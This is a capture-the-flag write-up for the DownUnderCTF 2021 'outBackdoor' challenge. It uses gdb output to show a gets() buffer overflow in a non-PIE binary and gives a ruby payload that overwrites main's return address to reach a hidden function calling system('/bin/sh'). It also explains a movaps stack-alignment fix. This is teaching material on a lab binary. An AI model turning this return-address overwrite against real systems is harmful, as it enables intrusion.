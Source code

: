 ## Intro
**outBackdoor** was a pwn challenge at DownUnderCTF 2021.  

You were given a binary to exploit.

## Investigation
`checksec` showed that besides NX no other stack mitigations are present, especially no PIE. Following the `ltrace` I learned the relatively simple flow of the program and found
a potential buffer overflow vulnerability because the insecure `gets` functions is used to capture user input. I loaded the program into `gdb` and found - next
to the `main` function - another interesting function called `outBackdoor`.

```
(gdb) info functions
...
0x0000000000401195  main
0x00000000004011d7  outBackdoor
...
```

```
(gdb) disas outBackdoor
...
0x00000000004011e7 <+16>:	lea    rdi,[rip+0xedf]        # 0x4020cd  "/bin/sh"
0x00000000004011ee <+23>:	mov    eax,0x0
0x00000000004011f3 <+28>:	call   0x401050 <system@plt>
...
```

```
(gdb) disas main
...
0x00000000004011bf <+42>:	lea    rax,[rbp-0x10]
0x00000000004011c3 <+46>:	mov    rdi,rax
0x00000000004011c6 <+49>:	mov    eax,0x0
0x00000000004011cb <+54>:	call   0x401060 <gets@plt>
...
```

The disassembly of the functions reveals we can get a shell from `outBackdoor` - if we are able to call it, as it isn't called from anywhere in `main`.
So the goal is to overflow the buffer in the `main` function and overwrite the return address with the address of the `outBackdoor` function. Let's set
a breakpoint right after the `gets` and run the program with `AAAAAAAA` as input.

```
(gdb) r
...
Breakpoint 1, 0x00000000004011d0 in main ()
(gdb) info frame
Stack level 0, frame at 0x7fffffffdee0:
 rip = 0x4011d0 in main; saved rip = 0x7ffff7e0cb75
 Arglist at 0x7fffffffded0, args: 
 Locals at 0x7fffffffded0, Previous frame's sp is 0x7fffffffdee0
 Saved registers:
  rbp at 0x7fffffffded0, rip at 0x7fffffffded8
(gdb) x/10x $rbp-0x10
0x7fffffffdec0:	0x41414141	0x41414141	0x00000000	0x00000000
0x7fffffffded0:	0x00000000	0x00000000	0xf7e0cb75	0x00007fff
0x7fffffffdee0:	0xffffdfc8	0x00007fff
```

We see that the buffer at `rbp-0x10` which is at `0x7fffffffdec0` itself takes 16 bytes of which we filled 8 bytes with the `AAAAAAAA`'s we typed in.
Then follows the `rbp` at `0x7fffffffded0`. On a 64-bit system this address takes another 8 bytes and directly after follows the `main` function's return
address we want to overwrite with the address of `outBackdoor` which is `0x00000000004011d7` - lucky for us the binary isn't PIE enabled.  

So we can just
- fill the buffer at `rbp-0x10` with 16 bytes
- overwrite `rbp` with 8 bytes
- overwrite the return address of `main` with `0x00000000004011d7` making `rip` point to `outBackdoor`.

## Solution
Let's pull off a quick ruby exploit for proof of concept.

```
(gdb) r < <(ruby -e 'print "A"*16 + "B"*8 + "\xd7\x11\x40\x00\x00\x00\x00\x00"')
...
Breakpoint 1, 0x00000000004011d0 in main ()
(gdb) x/10x $rbp-0x10
0x7fffffffdec0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffded0:	0x42424242	0x42424242	0x004011d7	0x00000000
0x7fffffffdee0:	0xffffdf00	0x00007fff
(gdb) c
Continuing.


W...w...Wait? Who put this backdoor out back here?
```
___
##### Note
When running the exploit remotely the program segfaults because of the so called [movaps issue](https://ropemporium.com/guide.html).
`movaps` is an assembly instruction that is used in some syscalls like `do_system()` and it expects the stack to be 16-byte aligned. Because we just brutally overwrote the return address of `main` instead of using a clean `call outBackdoor` our stack at the point of calling into `system()` is not aligned correctly.
To deal with that I used the address of `outBackdoor + 1` in the exploit instead - skipping the first `push rbp` instruction and therefore keeping the stack alignment intact.
___

See [exploit](./exploit.py) for an automation of the exploit written in python.

> DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}
